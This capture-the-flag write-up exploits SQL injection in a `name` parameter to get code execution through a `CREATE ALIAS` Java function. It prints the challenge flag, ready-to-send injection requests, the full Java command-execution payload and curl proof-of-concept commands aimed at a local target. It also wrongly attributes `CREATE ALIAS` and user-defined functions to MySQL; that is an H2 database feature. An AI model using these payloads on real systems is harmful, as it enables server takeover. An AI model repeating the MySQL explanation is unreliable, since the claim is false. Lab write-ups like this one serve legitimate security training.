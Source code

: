 # **Write-Up: Exploiting SQL Injection to Execute Arbitrary Code**

## **Challenge Description**
Pentesting isn't a solomente. Gather your team, create alias, and take control of the world. Java may not be my favorite language, but I always choose coffee every day.

## **FLAG**

NHD{khirna_maydir_ghirna_challenge_impermiable_hbibi}

---

## **Note from molzri3**
This challenge is inspired by the 'Pentester Notes' from HackTheBox. I played it, had a lot of fun, and decided to include it in the CTF. Thanks to @HackTheBox for the inspiration


## **Vulnerability Analysis**
### **1. Vulnerable Endpoint**
The endpoint `/api/mola7ada` is vulnerable to SQL injection due to improper handling of user input in the `name` parameter. The backend code directly concatenates user input into the SQL query without proper sanitization or parameterization.

### **2. Exploitable Functionality**
The `CREATE ALIAS` technique allows an attacker to define a custom function in MySQL that can execute arbitrary Java code. By exploiting the SQL injection vulnerability, an attacker can inject a payload to create an alias and execute system commands.

### **3. Prerequisites for Exploitation**
- The MySQL user must have the `CREATE` and `EXECUTE` privileges.
- The MySQL server must support user-defined functions (UDFs).

---

## **Exploitation Steps**

### **Step 1: Identify the Vulnerability**
1. **Test for SQL Injection:**
   Send a payload to the `/api/mola7ada` endpoint to test for SQL injection:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 25

   name=test' OR 1=1; --
   ```

   If the application returns all rows from the `mola7adat` table, SQL injection is confirmed.

2. **Determine the Number of Columns:**
   Use the `ORDER BY` clause to determine the number of columns in the query:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 25

   name=test' ORDER BY 3; --
   ```

   If the application returns a valid response, there are at least 3 columns.

### **Step 2: Exploit the Vulnerability**
1. **Inject a `CREATE ALIAS` Payload:**
   Use the following payload to create an alias that executes arbitrary Java code:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 500

   name=test'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream("/app/target/classes/static/hola.html"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return "Output written to /app/target/classes/static/hola.html"; }'; --
   ```

   This payload creates an alias `EXECVE` that executes a system command and writes the output to a file.

2. **Execute the Alias:**
   Use the following payload to execute the alias and run a system command:
   ```
   POST /api/mola7ada HTTP/1.1
   Host: 127.0.0.1:1337
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 50

   name=test'; CALL EXECVE('ls /'); --
   ```

   This payload executes the `ls /` command and writes the output to `/app/target/classes/static/hola.html`.

### **Step 3: Retrieve the Output**
1. **Access the Output File:**
   The output of the command is written to `/app/target/classes/static/hola.html`. Access this file via the web server:
   ```
   http://127.0.0.1:1337/hola.html
   ```

2. **Extract the Flag:**
   If the flag is located in the root directory, the `ls /` command will list it, and the output will be available in `hola.html`.

---

## **Proof of Concept (PoC)**
Here’s a sample PoC using `curl` to exploit the vulnerability:

```bash
# Step 1: Create the alias
curl -X POST \
  http://127.0.0.1:1337/api/mola7ada \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=test'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { Process process = Runtime.getRuntime().exec(cmd); java.io.InputStream inputStream = process.getInputStream(); java.io.FileOutputStream fileOutputStream = new java.io.FileOutputStream(\"/app/target/classes/static/hola.html\"); byte[] buffer = new byte[1024]; int bytesRead; while ((bytesRead = inputStream.read(buffer)) != -1) { fileOutputStream.write(buffer, 0, bytesRead); } fileOutputStream.close(); inputStream.close(); return \"Output written to /app/target/classes/static/hola.html\"; }'; --"

# Step 2: Execute the alias
curl -X POST \
  http://127.0.0.1:1337/api/mola7ada \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=test'; CALL EXECVE('ls /'); --"
```
